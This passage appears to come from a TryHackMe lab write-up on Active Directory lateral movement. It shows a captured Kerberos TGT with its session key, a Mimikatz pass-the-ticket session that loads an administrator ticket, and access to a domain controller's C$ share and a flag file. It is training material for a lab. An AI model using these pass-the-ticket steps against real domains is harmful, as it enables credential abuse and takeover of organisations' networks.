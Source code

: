 ```shell-session
 NTQ0NlqmERgPMjAyMjAyMDcwMzU0NDZapxEYDzIwMjIwMjEzMTc1NDQ2WqgRGw9MVU5BUi5FUlVDQS5D
 T02pJDAioAMCAQKhGzAZGwZrcmJ0Z3QbD2x1bmFyLmVydWNhLmNvbQ=
 
 ServiceName : krbtgt/za.tryhackme.loc
 ServiceRealm : ZA.TRYHACKME.LOC
 UserName : Adminsitrator
 UserRealm : ZA.TRYHACKME.LOC
 StartTime : 2/6/2022 5:54:46 PM
 EndTime : 2/7/2022 3:54:46 AM
 RenewTill : 2/13/2022 5:54:46 PM
 Flags : name_canonicalize, pre_authent, initial, renewable, forwardable
 KeyType : aes256_cts_hmac_sha1
 Base64(key) : Qr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVU=
 ASREP (key) : BF2483247FA4CB89DA0417DFEC7FC57C79170BAB55497E0C45F19D976FD617ED
```

Now we can use Mimikatz to load the TGT and authenticate to THMDC:

```shell-session
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

 .#####. mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ## > https://blog.gentilkiwi.com/mimikatz
 '## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
 '#####' > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt administrator.kirbi

* File: 'administrator.kirbi': OK

mimikatz # exit
Bye!

C:\Tools>dir \\THMDC.za.tryhackme.loc\c$\
 Volume in drive \\THMDC.za.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\THMDC.za.tryhackme.loc\c$

01/04/2022 08:47 AM 103 delete-vagrant-user.ps1
04/30/2022 10:24 AM 154 dns_entries.csv
04/27/2022 10:53 PM 885,468 MzIzMzViM2ItMmQ2Zi00YWQ3LWEwNjEtYjg2MmFjNzViY2Ix.bin
09/15/2018 08:19 AM <DIR> PerfLogs
03/21/2020 09:31 PM <DIR> Program Files
03/21/2020 09:28 PM <DIR> Program Files (x86)
04/27/2022 08:27 AM 1,423 thm-network-setup-dc.ps1
04/25/2022 07:13 PM <DIR> tmp
04/27/2022 08:22 AM <DIR> Users
04/25/2022 07:11 PM <SYMLINKD> vagrant [\\vboxsvr\vagrant]
04/27/2022 08:12 PM <DIR> Windows
 7 File(s) 2,356,811 bytes
 7 Dir(s) 50,914,541,568 bytes free
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt